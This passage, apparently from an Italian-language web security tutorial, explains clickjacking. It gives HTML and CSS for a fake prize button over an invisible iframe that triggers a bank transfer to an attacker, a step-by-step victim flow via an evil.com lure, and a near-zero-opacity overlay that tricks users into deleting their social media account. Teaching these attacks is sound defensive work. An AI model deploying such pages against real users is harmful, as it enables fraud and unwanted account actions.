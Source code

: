 ```html
    <!-- Pulsante falso visibile -->
    <button id="fake-button">RICHIEDI PREMIO</button>
    
    <!-- Iframe invisibile sovrapposto -->
    <iframe id="target-iframe" 
            src="https://bank.com/transfer?to=attacker&amount=1000">
    </iframe>
    
    <!-- User pensa di cliccare "RICHIEDI PREMIO" -->
    <!-- In realtà clicca "CONFERMA TRASFERIMENTO" nascosto nell'iframe -->
</body>
</html>
```

**Flusso attacco:**
```
1. Vittima riceve email: "Hai vinto un iPhone!"
2. Clicca link → evil.com
3. Vede pulsante rosso "RICHIEDI PREMIO"
4. Clicca pulsante
5. In realtà clicca iframe invisibile sopra il pulsante
6. Iframe contiene bank.com/transfer
7. Click esegue trasferimento bancario!
8. Soldi inviati all'attaccante
```

### 19.2.2 - Advanced Opacity Attack

**Opacity graduale per evitare sospetti:**

```html
<style>
    #target-iframe {
        position: absolute;
        top: 0;
        left: 0;
        opacity: 0.0001; /* Quasi invisibile ma tecnicamente visibile */
        z-index: 999;
        width: 100%;
        height: 100%;
        border: none;
    }
</style>

<iframe id="target-iframe" src="https://social-network.com/delete-account">
</iframe>

<div style="position: relative; z-index: 1;">
    <h1>Gratis! Scarica eBook</h1>
    <button>Download</button>
</div>

<!-- User clicca "Download" -->
<!-- In realtà clicca "Conferma eliminazione account" -->
```
